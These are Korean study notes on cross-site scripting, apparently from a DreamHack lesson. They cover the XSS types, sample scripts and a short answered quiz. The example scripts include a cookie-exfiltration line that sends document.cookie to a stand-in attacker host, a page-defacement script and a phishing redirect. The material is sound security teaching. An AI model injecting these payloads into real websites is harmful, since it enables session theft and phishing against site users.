








# Cross Site Scripting (XSS)  
## Cross Site Scripting (XSS)  
XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취  
**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.  
  
## XSS 발생 예시와 종류  
XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.  
예를 들어 **<script>** 등을 이용해 악성 스크립트를 만들어서 사용자가 실행하게 한다.  
XSS 종류는 다양하지만, 여기서는 4가지 정도 언급한다.  
1. Stored XSS : XSS에 사용되는 악성 스크립트가 **서버에 저장**되고 서버의 **응답에 담겨오는** XSS
2. Reflected XSS : XSS에 사용되는 악성 스크립트가 **URL에 삽입**되고 서버의 **응답에 담겨오는** XSS
3. DOM-based XSS : XSS에 사용되는 악성 스크립트가 **URL Fragment에 삽입**되는 XSS
4. Universal XSS : 클라이언트의 **브라우저** 혹은 **브라우저의 플러그인**에서 발생하는 취약점으로 **SOP 정책을 우회**하는 XSS

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.
  

## XSS 스크립트 예시  
아까 적었던 것처럼 **<script>** 를 통해 악성 스크립트를 만듭니다.  
즉, 자바스크립트를 주로 사용한다.  
```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```
위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.  
```html
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```
위의 코드는 **페이지 변조** 공격 코드이다.  
```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
위의 코드는 **위치 이동** 공격 코드이다.  
# Stored XSS  
## Stored XSS  
Stored XSS : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS  
  
이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.  
  
# Reflected XSS  
## Reflected XSS  
Reflected XSS : 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생함  
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생  
  
다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.  
  
그런데, 여기에 스크립트를 넣을 수도 있다.  
  
# 퀴즈  
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
답 : Reflected XSS  
2. XSS 취약점이 발생하는 곳은?  
답 : 클라이언트 + 서버  
3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
답 : Stored XSS    
